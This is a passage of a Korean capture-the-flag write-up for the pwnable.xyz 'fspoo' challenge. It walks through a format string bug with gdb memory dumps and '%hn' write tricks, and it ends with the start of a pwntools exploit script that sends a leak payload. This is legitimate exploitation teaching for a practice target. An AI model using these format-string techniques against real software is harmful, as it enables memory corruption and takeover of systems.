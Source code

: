 위의 코드는 `vuln()`에서 메뉴 선택을 받는 과정이다. 눈여겨보아야 할 부분은 `vuln+113`과 `vuln+116` 두 줄인데, `scanf()`로 입력받은 정수를 eax에 복사한 다음 마지막 1바이트만 남겨서 비교한다. 즉, 상위 3바이트는 메뉴 선택에 영향을 미치지 않는다는 것이다. 그렇다면 `scanf()`에서 `0x56557101` 같은 큰 값을 입력받았다고 쳐도 마지막 1바이트만 남기 때문에 `1. Edit name.`으로 넘어가게 된다.

```bash
[-------------------------------------code-------------------------------------]
   0x565558f2 <vuln+32>:	lea    eax,[ebx+0xa0]
   0x565558f8 <vuln+38>:	lea    eax,[eax+0x20]
   0x565558fb <vuln+41>:	push   eax
=> 0x565558fc <vuln+42>:	call   0x56555618 <printf@plt>
   0x56555901 <vuln+47>:	add    esp,0x10
   0x56555904 <vuln+50>:	sub    esp,0xc
   0x56555907 <vuln+53>:	lea    eax,[ebx-0x1464]
   0x5655590d <vuln+59>:	push   eax
Guessed arguments:
arg[0]: 0x56557060 ("%10$p\n")
```

우리가 FSB를 발생시켰던 `printf()`의 인자는 `0x56557060`이다.

```bash
gdb-peda$ x/20wx 0x56557040
0x56557040 <cmd>:	0xa9929ff0	0x41202020	0x41414141	0x41414141
0x56557050 <cmd+16>:	0x41414141	0x41414141	0x41414141	0x41414141
0x56557060 <cmd+32>:	0x24303125	0x00000a70	0x00000000	0x00000000
0x56557070 <cmd+48>:	0x41414141	0x41414141	0x41414141	0x41414141
0x56557080 <cmd+64>:	0x41414141	0x41414141	0x30312541	0x000a7024
```

메모리를 보면, `0x56557060`의 문자열은 `NULL` 이전까지로 인식되기 때문에 지금은 `"%10$p\n"`으로 들어간다. 만약 `0x5655706f`까지의 메모리를 `NULL` 없이 가득 채울 수 있다면 포맷 스트링이 그 뒤까지 쭉 이어져서, 우리가 `0x1f`바이트만큼 입력할 수 있는 Name이 그대로 포맷 스트링으로 들어가게 될 것이다. 위에서는 포맷 스트링을 최대 6바이트까지밖에 만들 수 없었는데, 길이 제한이 `0x1f`바이트가 되면 자유롭게 포맷 스트링을 구성할 수 있을 것이다.

포맷 스트링을 `"A%6$hn"`처럼 구성하면, 스택 프레임을 관찰해 보았을 때 `ebp-0x10`에 있는 주소에 `0x1`이라는 값이 적히게 된다. 그런데 `ebp-0x10`에는 우리가 `vuln+100`에서 입력한 정수가 그대로 들어간다. 즉 원하는 주소에 `0x1`이라는 값을 넣을 수 있다. 이것을 반복하면 `0x56557065`부터 `0x5655706f`까지 `NULL` 없이 가득 채울 수 있다.

일단 지금까지의 과정을 파이썬 코드로 만들어 보자.

```python
# exploit_fspoo.py

from pwn import *

r = process("./fspoo")
# r = remote("svc.pwnable.xyz", 30010)

def Edit(Name):
    r.recvuntil("> ")
    r.sendline("1")
    r.recvuntil("Name: ")
    r.send(Name)

def Prep():
    r.recvuntil("> ")
    r.sendline("2")

def Print():
    r.recvuntil("> ")
    r.sendline("3")

def Exit():
    r.recvuntil("> ")
    r.sendline("0")

r.recvuntil("Name: ")
r.sendline("A" * 0x19 + "%11$p")

```